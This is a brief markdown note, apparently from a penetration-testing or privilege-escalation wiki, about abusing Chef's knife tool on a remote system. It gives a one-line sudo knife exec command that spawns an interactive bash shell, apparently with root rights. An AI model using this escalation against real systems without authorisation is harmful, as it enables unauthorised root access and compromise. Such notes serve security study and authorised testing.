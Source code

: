 Knife chef and is a built in tool. if you are on a remote system running chef you may exploit the system. The knife command allows you to execute local commands if you know a bit of ruby.

	sudo knife exec --exec "exec '/bin/bash -i'"
	
Return to [[-README]]

